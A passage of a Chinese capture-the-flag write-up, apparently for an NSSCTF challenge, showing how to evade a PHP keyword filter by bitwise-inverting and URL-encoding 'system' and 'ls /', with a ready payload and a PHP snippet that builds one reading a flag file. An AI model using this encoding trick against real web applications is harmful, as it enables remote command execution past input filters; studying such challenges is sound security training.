     对每个字符进行按位取反后得到：

    ```
    l = ~0x6C = 0x93
    s = ~0x73 = 0x8C
    (space) = ~0x20 = 0xDF
    / = ~0x2F = 0xD0
    ```

    所以 `'ls /'` 被按位取反后变成了：

    ```
    0x93 0x8C 0xDF 0xD0
    ```

------

### 2️⃣ **URL 编码 (`urlencode`)**

`urlencode` 会把字符串中的非字母数字字符转化为 `%xx` 格式。因此，我们对这两个取反后的字节流进行 URL 编码。

- `'system'` 取反后的结果是：

  ```
  0x8C 0x86 0x8C 0x8B 0x9A 0x92
  ```

  URL 编码后变为：

  ```
  %8C%86%8C%8B%9A%92
  ```

- `'ls /'` 取反后的结果是：

  ```
  0x93 0x8C 0xDF 0xD0
  ```

  URL 编码后变为：

  ```
  %93%8C%DF%D0
  ```

```
?wllm=~(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

![image-20250803195805881](./NSSCTF-2.assets/image-20250803195805881.png)

```
<?php
echo urlencode(~'system');
echo "\n";
echo urlencode(~'cat /flllllaaaaaaggggggg');
?>
```
